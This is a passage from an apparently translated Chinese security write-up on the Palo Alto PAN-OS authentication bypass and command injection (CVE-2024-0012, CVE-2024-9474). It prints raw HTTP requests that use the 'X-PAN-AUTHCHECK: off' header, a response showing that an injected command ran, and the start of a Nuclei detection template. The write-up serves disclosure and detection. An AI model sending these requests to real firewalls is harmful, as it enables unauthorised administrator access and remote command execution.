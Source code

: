 ```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=2qe3kouhjdm8317f6vmueh1m8n;
X-PAN-AUTHCHECK: off
Connection: keep-alive

GET /unauth/watchTowr.php HTTP/1.1
Host: 192.168.1.227
Cookie: PHPSESSID=fvepfik7vrmvdlkns30rgpn1jb;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```  
  
这会导致我们注入的命令被执行：  
```
HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 09:39:17 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 108
Connection: keep-alive
Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS

Linux PA-VM 4.18.0-240.1.1.20.pan.x86_64 #1 SMP Wed Jul 31 20:37:12 PDT 2024 x86_64 x86_64 x86_64 GNU/Linu
```  
  
参考链接：  
  
https://labs.watchtowr.com/pots-and-pans-aka-an-sslvpn-palo-alto-pan-os-cve-2024-0012-and-cve-2024-9474/  
  
  
**3**►  
  
**Nuclei-POC**  
  
  
于是，又一种超级安全的下一代强化安全设备诞生了。  
  
这次是由于那些讨厌的反引号，再加上要求服务器不要通过检查我们的身份验证的超级复杂步骤X-PAN-AUTHCHECK。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUATdvp6luzLGWcJ715rkedKzWXkXwISjt5iasfxHqDdH6v0frLjNeia5kDE0C2O5libBdf4DEZGkFVkw/640?wx_fmt=png&from=appmsg "")  
  
令人惊奇的是，这两个漏洞竟然存在于生产设备中，而且是通过隐藏在 Palo Alto 设备内部的大量 Shell 脚本调用实现的。  
  
老读者可能会期待一个不错的 PoC，虽然我们很乐意提供一个，但我们会推迟一周左右发布，以让管理员有时间进行修补 - 但相反，我们发布了一个 Nuclei 模板，您可以使用它来检查您的主机是否受到  
影响  
。  
  
**CVE-2024-0012-POC**  
```
id: palo-alto-vpn-CVE-2024-0012-check-wt

info:
  name: Palo Alto PAN-OS Authentication Bypass in the Management Web Interface CVE-2024-0012
  author: watchTowr
  severity: critical
  description: An authentication bypass in Palo Alto Networks PAN-OS software enables an unauthenticated attacker with network access to the management web interface to gain PAN-OS administrator privileges to perform administrative actions, tamper with the configuration, or exploit other authenticated privilege escalation vulnerabilities like CVE-2024-9474.
  tags: palo-alto
  metadata:
    max-request: 4

http:
  - method: GET
    path:
      - "{{BaseURL}}/php/utils/CmsGetDeviceSoftwareVersion.php/.js.map"
```